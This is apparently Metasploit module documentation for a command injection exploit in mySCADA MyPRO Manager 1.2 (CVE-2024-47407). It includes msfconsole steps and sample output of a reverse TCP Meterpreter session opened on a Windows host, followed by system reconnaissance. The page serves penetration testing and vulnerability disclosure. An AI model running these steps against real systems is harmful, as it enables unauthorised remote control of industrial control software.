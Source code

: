 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in mySCADA MyPRO Manager <= v1.2 (CVE-2024-47407).

An unauthenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of
`myscada9`, an administrative user that is automatically added by the product during installation.

Versions <= 1.2 are affected. CISA published [ICSA-24-326-07](https://www.cisa.gov/news-events/ics-advisories/icsa-24-326-07) to cover
the security issues. The official changelog from the vendor for the updated version is available
[here](https://www.myscada.org/docs/5-11-2024/).

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](https://www.myscada.org/mypro/).

**Successfully tested on**

- mySCADA MyPRO Manager 1.2 on Windows 11 (10.0 Build 22621)

## Verification Steps

1. Install the application
2. After installation, reboot the system and wait some time until a runtime (e.g., 9.2.1) has been fetched and installed.
3. Start `msfconsole` and run the following commands:

```
msf > use exploit/windows/scada/mypro_mgr_cmd 
msf exploit(windows/scada/mypro_mgr_cmd) > set RHOSTS <IP>
msf exploit(windows/scada/mypro_mgr_cmd) > exploit 
```

You should get a meterpreter session in the context of `myscada9`.

## Scenarios

Running the exploit against MyPRO Manager v1.2 on Windows 11, using curl as a fetch command, should result in an output similar to the
following:

```
msf exploit(windows/scada/mypro_mgr_cmd) > exploit 

[*] Started reverse TCP handler on 192.168.1.227:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (201798 bytes) to 192.168.1.228
[*] Meterpreter session 1 opened (192.168.1.227:4444 -> 192.168.1.228:50472) at 2025-01-29 12:38:39 -0500
[*] Exploit finished, check thy shell.

meterpreter > getuid 
Server username: asdf\myscada9
meterpreter > sysinfo 
Computer        : asdf
OS              : Windows 11 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
```
